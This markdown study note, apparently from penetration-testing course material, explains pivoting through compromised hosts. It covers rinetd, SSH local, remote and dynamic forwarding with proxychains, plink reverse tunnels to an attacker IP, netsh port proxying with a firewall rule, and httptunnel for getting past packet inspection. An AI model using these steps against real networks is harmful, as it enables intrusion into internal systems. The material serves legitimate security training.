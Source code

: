 ```yaml
---
title: Port Redirection and Tunneling
---
```

# Port Redirection and Tunneling

> Carry a protocol over a incompatible delivery network or provide a secure route in a untrusted network.

## Port Forwarding

Redirect traffic from one ip and port to another ip and port.

### Scenario

![](./20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014201944675.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014201944675.png" alt="image-20201014201944675" width="40%" /> -->

The Linux Web Server is compromised, and we have root previledges. The Linux Client is also compromised and we gain ssh credentials. (i.e. connected to Linux Client via 2 layers of ssh)

The linux client isn't connected to the internet, but connected with the Linux Web Server in internal network.

We now need to transfer data to and from the Linux Client.

**What we can do it redirect traffic to port 80 of the Web Server to the internet. So the Linux Client can connect to internet through the Web Server.**

### RINETD

```bash
sudo apt update && sudo apt install rinetd
sudo leafpad /etc/rinetd.conf
# add the following
# bindaddress bindport    connectaddress 	connectport
0.0.0.0 		80 		216.58.207.142 		   80

sudo service rinetd restart
ss -antp | grep "80"		# port listening on port 80

# from the compromised machine, connect to port 80 of attacker machine
nc -nvv <IP> 80
```

What is does is, when the server machine receives an request on port 80, it's always sent to the destination address and port.

## SSH Tunneling

SSH can create encrypted tunnels within ssh protocol.

### Scenario

![](./20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014202648501.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014202648501.png" alt="image-20201014202648501" width="50%" /> -->

There are 3 machines in total. One attacker machine **A**, one compromised machine **B** (the Linux Client) connected to internet with only port 22, 8080, one machine **C** (windows) connected to **B** but only has access to local network.

We want to transfer data.

**B** redirects requests to to **C** via ssh.

### SSH Local Port Forwarding

Tunnel a local port to a remote server.

```bash
sudo ssh -N -L 0.0.0.0:445:<target IP>:445 <username>@<IP>	# run this on attacker machine
# -N: no executing remote command
# -L: port forwarding, then bind port 445 of localhost to port 445 of remote machine
# username and IP are of the compromised machine (medium).
```

Change samba setting, min samba verstion to V2

`min protocol = SMB2` in `/etc/smbda/smb.conf`

List windows shared files

```bash
# on compromise linux client
smbclient -L 127.0.0.1 -U Administrator
```

All traffic on the port should be redirected to the windows machine.

 ### SSH Remote Port Forwarding

![](./20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014205345250.png)
<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014205345250.png" alt="image-20201014205345250" width="50%" /> -->

Reverse of SSH Local Port Forwarding. 

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]
# example
ssh -N -R <attacker ip>:2221:127.0.0.1:3306 kali@<attacker ip>
```

bind_address is Attacker's IP address. 

-R to open a port (let's say 2221) for listening on the Attacker machine, 

Request to attacker machine's port 2221 will be forwarded to the linux client, and then to the SQL server running on that Linux client.

Check localhost port

```bash
ss -antp | grep "2221"
```

Flow: On attacker machine => send request to 127.0.0.1 port 2221 => request redirected to Linux Client port 3306 through the ssh tunnel.

```bash
# on attacker
sudo nmap -sS -sV 127.0.0.1 -p 2221
```

### SSH Dynamic Port Forwarding

![](./20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014211413992.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014211413992.png" alt="image-20201014211413992" width="50%" /> -->

Similar to SSH Local Port Forwarding

No need to create a tunnel for every port or every target ip in the network.

```bash
# on attacker machine
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address> # -D for dynamic port forwarding
```

Redirect any traffic to localhost:8080 to target network.

`<username>@<SSH server address>` are for the compromised linux client.

We need to tell how to run proxy.

```bash
sudo leafpad /etc/proxychains.conf
```

add socks4 proxy to it `socks4 127.0.0.1 8080`

```bash
proxychains nmap --top-ports=20 -sT -Pn <IP>
```



## PLINK.exe

> A windows ssh client

Pivoting on windows machine.

Download the tool with ftp server.

```powershell
cmd.exe /c echo y | plink.exe --ssh -l kali -pw <pwd> -R <attacker ip>:1234:127.0.0.1:3360 <attacker ip>
```

Scan target from attacker

```bash
sudo nmap -sS -sV 127.0.0.1 -p 1234
```

## NETSH

Windows based tool.

```powershell
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=<attacker ip> connectpoty=445 connectaddress=<target ip>
```

Open port 4455 for inbound traffic on windows machine with **netsh**

```powershell
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=<attacker ip> localport=4455 action=allow
```

On attacker machine, configure samba to use smb2 as min protocol

```bash
smbclient -L <attacker ip> --port=4455 --user=Administrator
```

## HTTPTunneling Through Deep Packet Inspection

![](./20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014233415622.png)

<!-- <img src="20.PRT-Port-Redirection-and-Tunneling.assets/image-20201014233415622.png" alt="image-20201014233415622" width="70%" /> -->

Use HTTP protocol for tunnelling.

`apt-cache search httptunnel`

Use `httptunnel` to encapsulate traffic within http request (http tunnel).

HTTP uses client-server model.

`sudo apt install httptunnel`

```bash
hts --forward-port localhost:8888 1234
htc --forward-port 8080 10.11.0.128:1234
```



















